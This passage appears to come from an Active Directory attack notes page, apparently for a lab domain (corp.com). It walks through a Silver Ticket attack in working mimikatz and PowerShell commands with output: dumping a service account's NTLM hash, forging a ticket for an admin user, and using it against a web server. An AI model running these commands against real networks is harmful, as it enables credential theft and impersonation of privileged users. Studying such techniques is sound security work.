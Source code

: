 ```powershell
> ls \\web04\backup
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```
{% endtab %}
{% endtabs %}

### Silver Ticket

For more info about this attack, see [here](../persistence/silver-ticket.md).

{% tabs %}
{% tab title="1. Extract NTML" %}
```powershell
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords

User Name : iis_service
NTLM      : 4d28cf5252d39971419580a51484ca09
SID       : S-1-5-21-1987370270-658905905-1781884369-1109
```
{% endtab %}

{% tab title="2. Forge ST" %}
{% code overflow="wrap" %}
```powershell
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
```powershell
# List cached tickets
> klist
Client: jeffadmin @ corp.com
Server: http/web04.corp.com @ corp.com
Ticket Flags: forwardable renewable pre_authent

# Exploit
> iwr -UseDefaultCredentials http://web04
StatusCode        : 200
StatusDescription : OK
...
```
{% endtab %}
{% endtabs %}

### DCSync
